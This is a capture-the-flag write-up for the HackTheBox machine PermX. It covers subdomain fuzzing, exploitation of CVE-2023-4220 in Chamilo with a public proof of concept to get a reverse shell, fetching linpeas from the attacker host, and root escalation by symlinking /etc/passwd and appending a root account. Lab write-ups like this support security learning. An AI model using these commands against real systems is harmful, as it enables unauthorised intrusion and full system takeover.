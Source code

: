 ```yaml
---
title: PermX - HackTheBox Write-Up
date: 2024-09-28
authors:
  - name: PrintN
    link: https://github.com/PrintN
    image: https://github.com/PrintN.png
---
```

![Image 0](./0.webp)
### Introduction
Hello👋 Today we're going to take a look at [PermX](./https://www.hackthebox.com/machines/permx) machine on HackTheBox by mtzsec. The difficulty is easy.

We'll have to start by adding the target IP Adress to our ```/etc/hosts``` use nano or vim to edit this.
```bash
[YOUR_TARGET_IP] permx.htb
```

### Enumeration
We'll start by scanning for open ports with Nmap.
![Screenshot 1](./1.webp)

We get port 80 and 22, which means there is a website running. There is nothing much of interest on the homepage.
![Screenshot 2](./2.webp)

So let's try to see if there are any interesting directories, we'll use Gobuster for that.
```bash
gobuster dir -u http://permx.htb -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```
![Screenshot 3](./3.webp)

Hmmm. Let's try to find some subdomains with ffuf.
```bash
ffuf -u http://permx.htb -H "Host:FUZZ.permx.htb" -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -fw 18
```
![Screenshot 4](./4.webp)

And we got something. Let's try checking ```lms.permx.htb``` out. Remember to first add it to our ```/etc/hosts```.
![Screenshot 5](./5.webp)

### Getting Access
We now know that the website uses Chamilo. Let's try do a quick search on any exploits on Chamilo. And we find **CVE-2023-4220** and a exploit script:

[https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc](./https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc)
```bash
git clone https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc
cd chamilo-lms-unauthenticated-big-upload-rce-poc
pip install -r requirements.txt
```
Set up a listener with ```nc -lvnp 443``` and then we can run the main.py.
```bash
python3 main.py -u http://lms.permx.htb -a revshell
```
![Screenshot 6](./6.webp)
![Screenshot 7](./7.webp)

And we get a shell! Now we want to run [linpeas](./https://github.com/peass-ng/PEASS-ng/releases) to find any vulnerbilities, so let's start a http server with python on our attacker machine.
```bash 
python -m http.server
```
In our shell we run.
```bash
wget http://10.10.14.34:8000/linpeas.sh
```
![Screenshot 8](./8.webp)
![Screenshot 9](./9.webp)

We get a password from the configuration.php. Now we only need the username to be able to ssh. Which we see is ```mtz``` by going to the home directory.

![Screenshot 10](./10.webp)

Let's ssh into ```mtz``` with the password ```03F6lY3uXAP2bkW8```
![Screenshot 11](./11.webp)

And we get our first flag!

![Screenshot 12](./12.webp)

### Privilege Escalation
We start by running ```sudo -l``` and we se that we can run ```/opt/acl.sh``` as root.
![Screenshot 13](./13.webp)
Let's take a look at ```/opt/acl.sh```.
```bash
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```
This script lets the user ```mtz``` change file permissions for any user, but only for files in the ```/home/mtz``` directory. It also blocks us from using path traversal.

What we can do is make a symlink to the ```/etc/passwd``` inside the ```/home/mtz``` and then add a privileged user.

So we first have to generate a password hash.

![Screenshot 14](./14.webp)
```bash
mkdir /tmp
cd /tmp
ln -s /etc/passwd passwd
sudo /opt/acl.sh mtz rwx /home/mtz/tmp/passwd
echo 'printn:$1$IeeL.gZ3$gs5hdreEStMsIs6wN.lVn0:0:0:root:/root:/bin/bash' >> /home/mtz/tmp/passwd
```
After running the commands above our user should now be added to the ```/etc/passwd```. Now we can just ```su printn``` with the password ```printn```.

And we get root. We can now get the last flag 🥳 

![Screenshot 15](./15.webp)